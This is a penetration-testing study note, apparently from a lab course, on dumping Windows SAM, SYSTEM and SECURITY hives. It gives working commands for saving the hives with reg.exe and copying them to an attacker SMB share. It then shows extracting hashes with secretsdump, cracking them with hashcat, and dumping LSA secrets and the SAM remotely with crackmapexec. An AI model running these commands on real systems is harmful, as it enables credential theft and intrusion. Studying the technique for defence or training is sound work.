

# Attacking SAM

* https://attack.mitre.org/techniques/T1003/002/
* If we have access to a target that is not part of any domain, we can dump the SAM hashfile and crack it offline
* We need to copy 3 files if we have access as a local admin
  * `hklm\sam`
  * `hklm\system`
  * `hklm\security`
  * 
* We can create backup of these hives using reg.exe util.
* If we have backup privileges, we can privesc

#### WORKFLOW:

**Using reg.exe save to Copy Registry Hives**

* launch `cmd.exe` as an admin
* Run the following commands to copy these files to the C: directory
  * `reg.exe save hklm\sam C:\sam.save`
  * `reg.exe save hklm\system C:\sam.system`
  * `reg.exe save hklm\security C:\security.save`\
    \- To crack hashes we only need \`sam, system\` files - \`security\` files may have hashes of cached domain user acocunt creds present on domain-joined hosts
* **Note:** we will usually find the SAM/SYSTEM/SECURITY Files in `C:\WINDOWS\SYSTEM32\CONFIG`\

* Once these files are copied to the C: location, start the `impacket-smbserver` on our PWNBOX

#### SMB Sharing:

* Start an SMB server on our PWNBOX - `sudo impacket-smbserver share -smb2support /tmp/smbshare`
* Use  `copy`, `move`, PowerShell `Copy-Item` on the target. - `copy \\192.168.220.133\share\nc.exe`
  * `move sam.save \\10.10.14.7\share`
* If unauthenticated access is not allowed to the smb server: - `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test` - on the PWNBOX
  * `net use n: \\192.168.220.133\share /user:test test` - mount the SMB server on the TARGET\

* `move` the files from the target to the PWNBOX
  * `move sam.save \\10.10.14.7\share`
* use `impacket-secretsdump` to **dump the username and hashes**
  * `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
  * `impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY local`
* Copy the NT hashes to another file
* use **hashcat** to crack the hashes:
  * `sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`\

**Note**

* SAM Hash format: (`uid:gid:lmhash:nthash`)
  * Windows operating systems store the password as an NT hash.
  * Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash

***

### Remote Dumping and LSA Secrets Consideration

* With local admin access, we can target LSA Secrets over the network
* can allow us to extract creds that use LSA secrets to store passwords\

* `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa` **Dumping SAM REMOTELY**
* `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`
